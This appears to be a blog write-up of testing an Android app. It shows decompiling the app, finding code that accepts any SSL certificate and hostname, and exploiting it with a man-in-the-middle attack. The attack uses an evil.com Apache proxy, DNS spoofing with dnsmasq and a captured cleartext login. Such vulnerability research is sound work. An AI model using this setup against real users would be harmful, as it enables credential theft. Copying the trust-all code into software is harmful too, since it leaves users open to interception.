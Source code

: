 ```yaml
---
published: true
---
```

I chose one application in Google Play to test. Its main functionalities were focused on consuming a RESTful web service. I decompiled this application using tools dex2jar and JD-GUI. Firstly, I connected my phone to computer to get apk file

	$ adb pull /data/app/com.example.app-1.apk

Then I converted apk into jar and ran decompiler

	$ ./d2j-dex2jar.sh com.example.app-1.apk -o app.jar
	dex2jar com.example.app-1.apk -> app.jar

	$ java -jar jd-gui-1.4.0.jar app.jar

During code analysis I found some interesting piece which made me think that application doesn't verify SSL certificate.

	SSLContext sc = SSLContext.getInstance("TLS");
	sc.init(null, new TrustManager[] { new TrustAllX509TrustManager() }, new java.security.SecureRandom());
	HttpsURLConnection.setDefaultSSLSocketFactory(sc.getSocketFactory());
	HttpsURLConnection.setDefaultHostnameVerifier( new HostnameVerifier(){
    	public boolean verify(String string,SSLSession ssls) {
        	return true;
    	}
	});
	
	public class TrustAllX509TrustManager implements X509TrustManager {
    	public X509Certificate[] getAcceptedIssuers() {
        	return new X509Certificate[0];
    	}
	
    	public void checkClientTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	
    	public void checkServerTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	}
    
To prove it, I ran Burp Suite and set up proxy on my phone. It was important not to install Burp's CA certificate. Web browser started to show warning when I was trying to load any page through HTTPS, but my application was connecing to web service without any problems.
I decided to exploit this vulnerability and peform Man-in-the-middle attack by setting up proxy between target's mobile device and web service.

I started with [proxy](https://github.com/mmmds/walkthroughs/blob/master/proxy.php) which I wrote in PHP and ran on Apache. It passes requests to legitimate web service and returns response from it slightly modifying headers to make the whole communication readable. Apache required rewriting rule to redirect every URL to this script and self-signed SSL certificate.

	<VirtualHost *:443>
		ServerName evil.com
		RewriteEngine on
		RewriteCond %{REQUEST_FILENAME} !-d
		RewriteCond %{REQUEST_FILENAME} !-f
		RewriteRule . /proxy.php [L]
		DocumentRoot /var/www/html
		SSLEngine on
		SSLCertificateFile "/tmp/server.cert"
		SSLCertificateKeyFile "/tmp/server.key"
	</VirtualHost>

Certificate was generated by

	$ openssl req -nodes -new -x509 -keyout server.key -out server.cert
    
Next step was to run dnsmasq - DNS server configured to return my proxy's IP for web service domain.

	$ dnsmasq -C /etc/dnsmasq.conf

Configuration consists of two files, /etc/dnsmasq.conf

	addn-hosts=/etc/dnsmasq.hosts
	server=8.8.8.8
    
and /etc/dnsmasq.hosts

	192.0.2.1 example.com
    
The last step was to change router's DNS to set up server's IP in administration panel. From that moment traffic from every device connected to attacker's WiFi was logged.

	$ cat /tmp/traffic
	POST /login HTTP/1.1
	Accept: text/plain, text/plain, application/json, */*, */*
	Content-Type: application/json
    User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.4; GT-I8160 Build/KTU84Q)
	Host: example.com
	Connection: Keep-Alive
	Content-Length: 53
    
    { "username": "user1", "password": "s3cr3tp4ssw0rd" }
    
    
    HTTP/1.1 200 200
	Server: nginx
	Date: Sat, 25 Feb 2017 20:47:29 GMT
	Content-Type: application/json
	Transfer-Encoding: chunked
	Connection: keep-alive
	Set-Cookie: JSESSIONID=A163B20D3696AF6185C07CD62EBA4B05
